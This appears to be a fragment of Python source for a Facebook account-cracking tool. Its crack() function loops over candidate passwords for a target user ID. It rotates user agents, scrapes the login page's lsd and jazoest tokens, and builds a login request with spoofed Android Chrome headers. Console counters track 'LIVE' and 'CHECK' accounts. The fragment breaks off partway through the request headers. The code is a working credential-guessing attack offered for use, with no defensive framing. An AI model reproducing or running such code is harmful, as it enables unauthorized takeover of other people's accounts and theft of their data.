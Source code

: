 #-------------------[ METODE-VALIDATE ]-----------------#
def crack(idf,pwv):
	global loop,ok,cp
	bo = random.choice([m,k,h,b,u,x])
	sys.stdout.write(f"\r{x}[M1] | {P}{loop}{P} | {H}LIVE-{ok} {P}| {K}CHECK-{cp}")
	sys.stdout.flush()
	ua = random.choice(ugen)
	ses = requests.Session()
	for pw in pwv:
		try:
			if 'ya' in uaku: ua = uaku[0]
			p = ses.get("https://m.facebook.com/login.php?skip_api_login=1&api_key=3213804762189845&kid_directed_site=0&app_id=3213804762189845&signed_next=1&next=https%3A%2F%2Fm.facebook.com%2Fv3.1%2Fdialog%2Foauth%3Fclient_id%3D3213804762189845%26redirect_uri%3Dhttps%253A%252F%252Fwww.capcut.com%252Fpassport%252Fweb%252Fweb_login_success%26scope%3Demail%26state%3D7fa6276f3gAToVCgoVPZIDBjODI1Yjc4YTUyZGI0Mzc5OWQyZmQ4Yjk2NjU3NjZloU7ZOmh0dHBzOi8vd3d3LmNhcGN1dC5jb20vbHYvdjEvdXNlci93ZWIvbG9naW4vdGhpcmRfY2FsbGJhY2uhVgGhSQChRAChQdIABVAcoU0AoUiud3d3LmNhcGN1dC5jb22hUgKiUEzRBuymQUNUSU9OqXVuZGVmaW5lZKFM2SJodHRwczovL3d3dy5jYXBjdXQuY29tL2lkLWlkL2xvZ2luoVTZIGQ1MjZmMWRlNmFkYzNlZTk3NzNmNWU2ZDAyMTZmNDRioVcAoUYAolNBAKFVwqJNTMI%25253D%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3Df074ef75-3c65-4cd9-8b24-1960b5a9e42d%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fwww.capcut.com%2Fpassport%2Fweb%2Fweb_login_success%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D7fa6276f3gAToVCgoVPZIDBjODI1Yjc4YTUyZGI0Mzc5OWQyZmQ4Yjk2NjU3NjZloU7ZOmh0dHBzOi8vd3d3LmNhcGN1dC5jb20vbHYvdjEvdXNlci93ZWIvbG9naW4vdGhpcmRfY2FsbGJhY2uhVgGhSQChRAChQdIABVAcoU0AoUiud3d3LmNhcGN1dC5jb22hUgKiUEzRBuymQUNUSU9OqXVuZGVmaW5lZKFM2SJodHRwczovL3d3dy5jYXBjdXQuY29tL2lkLWlkL2xvZ2luoVTZIGQ1MjZmMWRlNmFkYzNlZTk3NzNmNWU2ZDAyMTZmNDRioVcAoUYAolNBAKFVwqJNTMI%25253D%23_%3D_&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr")
			dataa ={
            "lsd": re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),
            "jazoest": re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),
            "uid": idf,
            "next": "https://m.facebook.com/",
            "flow": "login_no_pin",
            "pass": pw,
            }
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2; wd=360x648'
			heade = {"Host": "m.facebook.com",
			"content-length": "275",
			"cache-control": "max-age=0",
			"dpr": "2",
			"viewport-width": "980",
			"sec-ch-ua": '"Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"',
			"sec-ch-ua-mobile": "?1", 
			"sec-ch-ua-platform": '"Android"',
			"sec-ch-ua-platform-version": '"13.0.0"',
			"sec-ch-ua-model": '""',
			"sec-ch-ua-full-version-list": '"Not_A Brand";v="8.0.0.0", "Chromium";v="120.0.6099.144", "Google Chrome";v="120.0.6099.144"',
			"sec-ch-prefers-color-scheme": "dark",
			"upgrade-insecure-requests": "1",
			"origin": "https://m.facebook.com",
			"content-type": "application/x-www-form-urlencoded", 
			"user-agent": ua,
			"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7",
			"sec-fetch-site": "same-origin",
			"sec-fetch-mode": "navigate",
			"sec-fetch-user": "?1",
			"sec-fetch-dest": "document",